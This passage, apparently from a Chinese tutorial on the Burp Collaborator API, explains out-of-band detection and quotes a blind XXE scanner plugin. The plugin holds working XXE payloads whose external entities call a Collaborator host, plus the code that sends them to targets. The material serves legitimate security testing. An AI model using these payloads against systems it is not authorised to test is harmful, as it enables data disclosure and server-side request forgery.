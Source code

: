 可以看到此方法与上述方法的区别吗？其区别在于一个是检索单个payload，另外一个是检索在插件运行中生成的所有payload是否被请求。

**fetchInfiltratorInteractionsFor与fetchAllInfiltratorInteractions不常用，不予介绍。**

学习完了三个主要方法之后，我们就可以开始了解一下使用这些方法可以做什么了。我们需要先想想，Burp的CollaboratorClient相当于一个dnslog，我们一般都用dnslog来测试什么呢？

**BLIND XXE、BLIND SSRF、SQL外带、Blind OS INJECTION等。**

接下来以github的某个XXE扫描插件来介绍如何使用此api的三个方法实现一个Blind XXE Scanner。

插件地址：[XXEPlugin.java](https://github.com/yandex/burp-molly-pack/blob/8c9aa5766dcd4b49d3258bf7f3790bd318fe9b7f/src/main/java/com/yandex/burp/extensions/plugins/audit/XXEPlugin.java)

重点关注以下代码：

```plain
public void initXXEPayloads() {
        XXEPayloads.add("<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\"?>\n<!DOCTYPE test [\n<!ENTITY % remote SYSTEM \"http://{collaboratorPayload}/\">\n%remote;\n]><test>test</test>");
        XXEPayloads.add("<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\"?><!DOCTYPE root PUBLIC \"-//B/A/EN\" \"http://{collaboratorPayload}/\"><root>a0e5c</root>");
        XXEPayloads.add("<?xml version=\"1.0\"?><!DOCTYPE foo [<!ENTITY xxe1 \"dryat\"><!ENTITY xxe2 \"0Uct\"><!ENTITY xxe3 \"333\"><!ENTITY xxe \"&xxe1;&xxe3;&xxe2;\">]><methodCall><methodName>BalanceSimple.CreateOrderOrSubscription</methodName><params><param><value><string>&xxe;test</string></value></param><param>x</params></methodCall>");
        XXEPayloads.add("<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<!DOCTYPE tst SYSTEM \"http://{collaboratorPayload}\">\n<tst></tst>");
    }

    @Override
    public List<IScanIssue> doScan(IHttpRequestResponse baseRequestResponse, IScannerInsertionPoint insertionPoint) {
        IResponseInfo resp = helpers.analyzeResponse(baseRequestResponse.getResponse());
        IRequestInfo req = helpers.analyzeRequest(baseRequestResponse.getRequest());
        if (resp == null | req == null) return null;

        URL url = helpers.analyzeRequest(baseRequestResponse).getUrl();
        if (flags.contains(url.toString())) return null;
        else flags.add(url.toString());

        IBurpCollaboratorClientContext collaboratorContext = callbacks.createBurpCollaboratorClientContext();
        String collaboratorPayload = collaboratorContext.generatePayload(true);
        List<IScanIssue> issues = new ArrayList<>();

        for (String xxe : XXEPayloads) {
            xxe = xxe.replace("{collaboratorPayload}", collaboratorPayload);
            List<String> headers = helpers.analyzeRequest(baseRequestResponse).getHeaders();
            headers.set(0, headers.get(0).replace("GET", "POST"));
            headers.removeIf(header -> header != null && header.toLowerCase().startsWith("content-type:"));
            headers.add("Content-type: application/xml");

            byte[] attackBody = helpers.buildHttpMessage(headers, helpers.stringToBytes(xxe));
            IHttpRequestResponse attackRequestResponse = callbacks.makeHttpRequest(baseRequestResponse.getHttpService(), attackBody);
            List<IBurpCollaboratorInteraction> collaboratorInteractions = collaboratorContext.fetchCollaboratorInteractionsFor(collaboratorPayload);

            if (attackRequestResponse != null && attackRequestResponse.getResponse() != null
                    && collaboratorInteractions != null
                    && (!collaboratorInteractions.isEmpty() || helpers.bytesToString(attackRequestResponse.getResponse()).contains("dryat0Uct333"))) {
                String attackDetails = "XXE processing is enabled at: \n" + helpers.analyzeRequest(attackRequestResponse).getUrl().toString();

                issues.add(new CustomScanIssue(attackRequestResponse.getHttpService(),
```